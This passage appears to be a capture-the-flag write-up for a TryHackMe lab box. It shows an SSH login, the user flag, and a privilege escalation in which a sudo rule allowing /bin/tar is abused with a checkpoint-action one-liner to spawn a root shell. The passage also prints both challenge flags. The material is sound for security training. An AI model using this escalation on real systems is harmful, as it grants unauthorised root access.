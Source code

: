 ```
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.74.157' (ED25519) to the list of known hosts.
lin@10.10.74.157's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 

```

```
lin@bountyhacker:~/Desktop$ ls -alt
total 12
drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}

```
-----
**Privilege Escalation**

In order to reach the root flag the first thing I did was run the following command. 
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```
Lin has root privileges to execute the /bin/tar command


I then went to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) and searched for tar. GTFOBins describes itself as a curated list of Unix binaries that can be used to bypass local security restrictions in misconfiguration systems

Running the following command allowed me to get a root shell and read the root.txt flag located in the root directory
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# ls /root
root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}

```
